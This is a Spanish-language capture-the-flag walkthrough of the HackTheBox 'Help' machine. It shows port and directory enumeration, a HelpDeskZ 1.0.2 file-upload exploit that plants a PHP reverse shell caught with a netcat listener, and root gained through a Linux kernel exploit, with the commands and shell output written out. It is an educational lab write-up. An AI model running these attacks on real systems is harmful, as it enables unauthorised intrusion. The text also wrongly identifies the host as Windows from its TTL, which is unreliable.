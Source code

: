 ```yaml
---
title: HTB - Help
published: true
categories: [Linux]
tags: [eJPT, eWPT, Fácil]
---
```


<img src="/assets/HTB/Help/help.png">

¡Hola!
Vamos a resolver de la máquina `Help` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Web Enumeration**
- **HelpDeskZ 1.0.2 Arbitrary File Upload**
- **Linux Kernel 4.4.0-116 Privesc exploit [CVE 2017-16995]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Help`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.121
PING 10.10.10.121 (10.10.10.121) 56(84) bytes of data.
64 bytes from 10.10.10.121: icmp_seq=1 ttl=63 time=42.3 ms

--- 10.10.10.121 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.121 -oG allPorts

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p22,80,3000 10.10.10.121 -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5bb4d9cdeaf6bbfba8c227ad8d74328 (RSA)
|   256 d5b010507486a39fc5536f3b4a246119 (ECDSA)
|_  256 e21b88d37621d41e38154a8111b79907 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn t have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Añadimos `help.htb` a nuestro `/etc/hosts`

### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
❯ whatweb http://help.htb
http://help.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.121], Title[Apache2 Ubuntu Default Page: It works]
```

Accedemos al servicio HTTP por el puerto 80 y observamos la página por defecto de Apache

<img src="/assets/HTB/Help/apache.png">

Con la herramienta GoBuster aplicamos fuzzing para descubrir posibles directorios y localizamos `support`

```bash
❯ gobuster dir -u http://help.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/23 11:35:26 Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
```

Accedemos a la ruta encontrada y vemos un panel de `HelpDeskZ`

<img src="/assets/HTB/Help/support.png">

Buscando en Google vemos que es un proyecto OpenSource y localizamos su código en [GitHub](https://github.com/sabelosimelane/HelpDeskZ-2.0). Vemos que en la raíz del proyecto hay un archivo `UPGRADING.txt`. Verificamos que podemos acceder a este recurso y averiguamos que la versión de HelDeskZ es la `1.0.2`

<img src="/assets/HTB/Help/upgrading.png">

Buscando con `searchsploit` localizamos dos vulnerabilidades asociadas a esta versión

```bash
❯ searchsploit helpdeskz
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                                                                                                                     | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download                                                                                              | php/webapps/41200.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Nos descargamos el script `40300.py` y examinamos su contenido

```python
.
.
.
HelpDeskZ = v1.0.2 suffers from an unauthenticated shell upload vulnerability.

The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

/controllers <https://github.com/evolutionscript/HelpDeskZ-1.0/tree/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers>/*submit_ticket_controller.php - Line 141*
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
.
.
.
```

Examinando el código vemos en la explicación que el software permite subir archivos cpn estensión `.php`. Parece que los desarrolladores no le dieron mucha importancia debido a que los nombres de archivos se ofuscan cuando se suben. Sin embargo observando la función que se encarga de ofuscar el nombre del archivo podemos hacer los mismos cálculos por nuestra cuenta y averiguar el nombre del archivo

### Explotación HelpDeskZ

* * *

Primero nos decargamos el archivo malicioso en PHP de la web de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell). Debemos modificar la IP y el puerto con el que entablaremos la reverse shell. Creamos un nuevo ticket en el portal de HelpDeskZ adjuntando nuestro archivo malicioso. Nos ponemos en escucha en el puerto 443 y ejecutamos el exploit `40300.py`

<img src="/assets/HTB/Help/ticket.png">

```bash
#EXPLOIT
❯ python2 40300.py http://help.htb/support/uploads/tickets/ php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit

#LISTENER
❯ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.54] from (UNKNOWN) [10.129.227.176] 58332
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 07:10:03 up  4:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can t access tty; job control turned off
$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```

La flag de usuario de bajos privilegios la encontramos en la ruta `/home/help`

```bash
help@help:/home/help$ cat user.txt 
457163eba4d2bb0fc***************
```

### Escalada Privilegios

* * *

Enumerando grupos, privilegios de sudoer o archivos con privilegios SUID no logramos encontrar nada interesante. Sin embargo, listamos información del sistema con la herramienta `uname` y vemos que el kernel del sistema operativo es un poco antiguo

```bash
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Buscamos por vulnerabilidades asociadas a esta versión de kernel y encontramos un script en **C** en [exploit-db](https://www.exploit-db.com/exploits/44298). Nos lo copiamos en la máquina víctima, lo compilamos y ejecutamos

```bash
help@help:/tmp$ nano exploit.c
help@help:/tmp$ gcc exploit.c -o exploit
help@help:/tmp$ ./exploit
task_struct = ffff880036979540
uidptr = ffff8800382ca9c4
spawning root shell
root@help:/tmp# whoami
root
```

La flag de usuario privilegiado la encontramos en el directorio `/root`

```bash
root@help:/root# cat root.txt 
589487ad4ccb354ba***************
```

Hemos completado la máquina **Help** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Help/pwned.png">